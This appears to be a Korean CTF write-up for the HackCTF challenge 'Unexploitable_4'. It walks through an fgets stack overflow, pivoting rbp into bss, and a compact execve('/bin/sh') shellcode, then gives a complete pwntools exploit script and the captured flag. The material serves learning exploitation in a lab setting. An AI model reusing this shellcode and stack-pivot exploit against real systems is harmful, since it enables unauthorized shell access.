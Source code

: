 # Unexploitable_4

---

우선 `main()`의 코드는 다음과 같다.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char s; // [rsp+0h] [rbp-10h]

  sub_40066D(a1, a2, a3);
  fgets(&s, 44, stdin);
  return 0LL;
}
```

`main()`이외에 다른 함수들을 살펴보았지만 출력을 할 수 있는 함수가 전혀 없어서 leak이 불가능한 상황이다.

하지만 보호기법을 보니 다음과 같이 shellcode를 사용할 수 있음을 알 수 있었다.

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

`main()`의 assembly 코드는 다음과 같기 때문에  rbp의 값을 조절한 후 0x4006db로 ret시켜서 원하는 곳에 44bytes만큼 쓸 수 있다.

```gdb
push    rbp
.text:00000000004006CF                 mov     rbp, rsp
.text:00000000004006D2                 sub     rsp, 10h
.text:00000000004006D6                 call    sub_40066D
.text:00000000004006DB                 mov     rdx, cs:stdin   ; stream
.text:00000000004006E2                 lea     rax, [rbp+s]
.text:00000000004006E6                 mov     esi, 2Ch ; ','  ; n
.text:00000000004006EB                 mov     rdi, rax        ; s
.text:00000000004006EE                 call    _fgets
.text:00000000004006F3                 mov     eax, 0
.text:00000000004006F8                 leave
.text:00000000004006F9                 retn
```

44bytes의 길이는 [dummy 16bytes]+[SFP 8bytes]+[ret 8bytes]+[dummy 12bytes]로 이루어져 있기 때문에 SFP부분에 원하는 값을 넣고 ret주소를 조작한다고 하면 24bytes이내에 원하는 값을 쓸 수 있기 때문에 24bytes 이하의 shellcode를 쓸 수 있다.

하지만 그 24bytes짜리 shellcode를 수행하던 중에 push 명령어를 일정 개수 이상 수행하게 되면 rsp가 rip의 영역을 침범하여 shellcode가 덮어씌워진다. 이 부분이 이 문제의 핵심포인트이다.

---

때문에 최대한 push를 쓰지 않으려고 하였다. 나는 다음과 같은 shellcode를 썼다.

**\x48\x31\xf6\x48\x31\xd2\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\xb0\x3b\x0f\x05**

```assembly
0:  48 31 f6                xor    rsi,rsi
3:  48 31 d2                xor    rdx,rdx
6:  48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
d:  73 68 00
10: 53                      push   rbx
11: 48 89 e7                mov    rdi,rsp
14: b0 3b                   mov    al,0x3b
16: 0f 05                   syscall
```

해당 shellcode는 18bytes로 한 번의 `fgets()`를 사용하여 입력할 수 있다.

원래는 push rax push rbx를 통해서 "/bin//sh"끝에 0을 위치시켜 문자열의 끝을 나타내지만 push를 없애기 위해서 "/bin/sh\x00"을 rbx에 넣어 push rbx시켰다.

익스플로잇 코드는 다음과 같다.

```python
from pwn import*

#p=process('./Unexploitable_4')
#gdb.attach(p)
p=remote('ctf.j0n9hyun.xyz',3039)

main_fgets=0x4006db
bss=0x601900

payload='A'*16
payload+=p64(bss+0x10)
payload+=p64(main_fgets)

p.sendline(payload)

###

payload2='\x48\x31\xf6\x48\x31\xd2\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\xb0\x3b\x0f\x05'
payload2+=p64(bss)

p.sendline(payload2)

p.interactive()
```

flag는 다음과 같다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/40.Unexploitable_4$ python ex2.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3039: Done
[*] Switching to interactive mode
$ cat flag
HackCTF{C4n_Y0u_Exp1oit???!}

```

**flag: HackCTF{C4n\_Y0u\_Exp1oit???!}**
